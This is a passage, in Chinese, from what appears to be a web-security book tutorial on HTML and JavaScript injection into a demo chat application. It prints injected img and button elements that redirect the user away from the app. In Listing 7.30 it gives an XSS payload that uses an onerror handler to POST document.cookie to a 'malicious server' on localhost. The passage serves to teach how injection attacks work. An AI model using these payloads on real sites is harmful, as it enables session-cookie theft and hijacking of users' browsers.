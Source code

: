 将*列表 7.28*中显示的文本输入到`input`元素中，并点击**发送消息**按钮。在将文本输入到`input`元素时，请注意引号字符。使用双引号和单引号非常重要，正如所示，否则浏览器将无法解析字符串。

列表 7.28：请求图像

```js
<img src="img/city.png" onclick="location='http://packt.com'"> 
```

客户端 JavaScript 代码将服务器的响应添加到显示给用户的 HTML 文档中，这导致浏览器从不良服务器请求图像文件。点击图像会导致浏览器从应用程序导航离开，如图*图 7.9*所示。

![img/B21959_07_09.png]

图 7.9：通过点击重定向加载图像

可以添加到文档中的不仅仅是图像。将 *Listing 7.29* 中显示的文本输入到 `input` 元素中，然后点击 **发送消息** 按钮，这将向用户显示的文档中添加一个按钮。再次密切注意引号字符。

列表 7.29：创建按钮

```js
<button class="btn btn-danger" onclick="location='http://packt.com'">Click</button> 
```

创建的按钮利用了应用程序使用的 CSS 样式表，使新元素的外观与浏览器显示的其他按钮保持一致，如图 *7.11* 所示。

![](img/B21959_07_10.png)

图 7.11：添加元素

注入的代码也可以用来窃取敏感数据。将 *Listing 7.30* 中显示的文本输入到 `input` 元素中，然后再次点击 **发送消息** 按钮，同时密切注意引号字符，并将文本作为单行输入。

列表 7.30：窃取数据

```js
<img src="img/nope" onerror="fetch('http://localhost:9999', { method: 'POST', body: document.cookie})"> 
```

此 `img` 元素指定了一个不存在的文件。当浏览器无法加载文件时，将触发 `error` 事件，执行 *Listing 7.30* 中分配给 `onerror` 属性的 JavaScript 代码片段。该代码使用浏览器的 Fetch API 向恶意服务器发送 HTTP POST 请求，包括作为请求体的敏感 cookie 数据。如果你检查运行恶意服务器的命令提示符的输出，你会看到以下消息，显示恶意服务器接收到的数据：
